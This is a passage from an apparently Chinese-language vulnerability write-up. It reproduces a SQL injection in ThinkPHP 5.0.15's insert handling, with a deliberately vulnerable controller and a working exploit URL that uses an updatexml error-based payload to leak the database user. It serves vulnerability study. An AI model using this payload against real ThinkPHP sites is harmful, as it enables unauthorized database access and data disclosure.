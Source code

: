 ## 漏洞利用

从官网下载`ThinkPHP5.0.15`，在`application/index/controller/Index.php`中插入

```php
public function index()
{
    $username = input('get.username/a');
    $res = db('user')->where(['id'=> 1])->insert(['username'=>$username]);
    var_dump($res);
}
```

依旧是以数组的形式接受参数

然后创建一个简单的`user`表

![](ThinkPHP-漏洞分析集合\5.png)

然后在`database.php`配置好数据库信息，最后打在`congfig.php`中将`app_debug`开为`true`。（应该是前一个5.0.9的漏洞原因修改了默认设置吧

最后访问如下url，即可产生sql注入（虽然还是鸡肋型的

```
http://localhost/tp5.0.15/public/index.php
?username[0]=inc
&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)
&username[2]=1
```

![](ThinkPHP-漏洞分析集合\6.png)
